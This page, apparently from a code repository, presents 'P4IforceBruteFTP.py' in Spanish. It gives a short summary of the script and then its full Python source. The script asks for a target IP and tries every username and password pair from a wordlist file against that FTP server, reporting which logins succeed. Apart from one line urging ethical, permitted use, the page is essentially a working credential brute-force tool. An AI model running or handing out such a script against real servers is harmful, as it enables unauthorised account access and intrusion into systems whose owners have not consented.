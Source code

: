 # 👹 FUERZA BRUTA A FTP             P4IforceBruteFTP.py

`P4IforceBruteFTP.py` es un script diseñado para automatizar la prueba de fuerza bruta en conexiones FTP (Protocolo de Transferencia de Archivos). Aquí tienes un resumen de su funcionalidad:

1. **Banner de Bienvenida:** Muestra un banner de bienvenida al usuario cuando ejecuta el programa.
2. **Colores ANSI:** Define códigos de colores ANSI para mejorar la presentación de la salida en la consola.
3. **Función de Fuerza Bruta (`fuerzabruta`):** Define una función que intenta iniciar sesión en un servidor FTP con un nombre de usuario y contraseña dados. Registra si la prueba fue exitosa o falló.
4. **Función Principal (`main`):** Solicita al usuario la dirección IP del objetivo y si ya tiene un nombre de usuario. Luego, lee listas de nombres de usuario y contraseñas de un archivo llamado `listaUsyPasw.txt`. Para cada combinación de usuario y contraseña, realiza una prueba de fuerza bruta llamando a la función `fuerzabruta`.
5. **Manejo de Excepciones (`try`/`except`):** Maneja la interrupción del teclado (Ctrl+C) para finalizar el programa de manera ordenada si el usuario decide detener la ejecución.

En resumen, este script intenta automatizar el proceso de prueba de fuerza bruta en conexiones FTP para un servidor especificado, utilizando nombres de usuario y contraseñas proporcionados en un archivo. Cabe mencionar que el uso de herramientas de prueba de fuerza bruta debe realizarse ética y legalmente, preferiblemente con el permiso del propietario del sistema o la aplicación.

````python
// Some code

```python
#!programa para automatizar la prueba de usuarios y contraseñas a una conexion FTP -  P4IforceBruteFTP.py - By P4IM0N

#-----------------------------------------------------------------------------------------------------------------
import ftplib
from tabulate import tabulate
import time

#-----------------------------------------------------------------------------------------------------------------
# Colores ANSI
COLOR_VERDE = "\033[92m"
COLOR_ROJO = "\033[91m"
COLOR_PURPURA = "\033[95m"
COLOR_RESET = "\033[0m"  # Restablecer el color

#-----------------------------------------------------------------------------------------------------------------
banner= f'''{COLOR_ROJO}

__________  _____ .___  _____                         __________                __        ________________________________ 
\______   \/  |  ||   |/ ____\___________   ____  ____\______   \_______ __ ___/  |_  ____\_   _____/\__    ___/\______   |
 |     ___/   |  ||   \   __\/  _ \_  __ \_/ ___\/ __ \|    |  _/\_  __ \  |  \   __\/ __ \|    __)    |    |    |     ___/
 |    |  /    ^   /   ||  | (  <_> )  | \/\  \__\  ___/|    |   \ |  | \/  |  /|  | \  ___/|     \     |    |    |    |    
 |____|  \____   ||___||__|  \____/|__|    \___  >___  >______  / |__|  |____/ |__|  \___  >___  /     |____|    |____|    
              |__|                             \/    \/       \/                         \/    \/                          
{COLOR_RESET}{COLOR_PURPURA}By P4IM0N{COLOR_RESET}'''

print(banner)

#-----------------------------------------------------------------------------------------------------------------
def fuerzabruta(ip,usuario,contraseña):
    pruebas = []
    conexion_ftp = ftplib.FTP(ip)
    try:
        conexion_ftp.login(usuario,contraseña)
        conexion_ftp.quit()
        pruebas.append([f'CORRECTA: {usuario} : {contraseña}'])
        tabla_prueba = tabulate(pruebas,['PRUEBA'],tablefmt='grid')
        print(COLOR_VERDE+tabla_prueba+COLOR_RESET)
    except:
        pruebas.append([f'INCORRECTA: {usuario} : {contraseña}'])
        tabla_prueba = tabulate(pruebas,['PRUEBA'],tablefmt='grid')
        print(COLOR_ROJO+tabla_prueba+COLOR_RESET)    


#-----------------------------------------------------------------------------------------------------------------
def main():
    print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
    ip_objetivo = input('Manito dame la IP objetivo para aplicarle fuerza bruta:  ')
    print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
    print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
    existe_usuario = input('Manito tienes un nombre de USUARIO? (s/n):  ')
    print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
    usuarios = open('listaUsyPasw.txt','r')
    usuarios = usuarios.read().split('\n')
    contraseñas = open('listaUsyPasw.txt','r')
    contraseñas = contraseñas.read().split('\n')
    if existe_usuario == 's':
        print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
        usuario_aportado = input('Manito dame el nombre de usuario que tienes para hacer fuerza bruta a su contraseña:  ')
        print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
        for passw in contraseñas:
            time.sleep(1)
            fuerzabruta(ip_objetivo,usuario_aportado,passw)
    else:     
        for user in usuarios:
            for passw in contraseñas:
                time.sleep(1)
                fuerzabruta(ip_objetivo,user,passw)
    


#-----------------------------------------------------------------------------------------------------------------
if __name__=='__main__':
    try:
        main()
    except KeyboardInterrupt:
        print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
        print('Manito hasta la proximaaaa ')
        print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
        exit()    


#-----------------------------------------------------------------------------------------------------------------
```
````
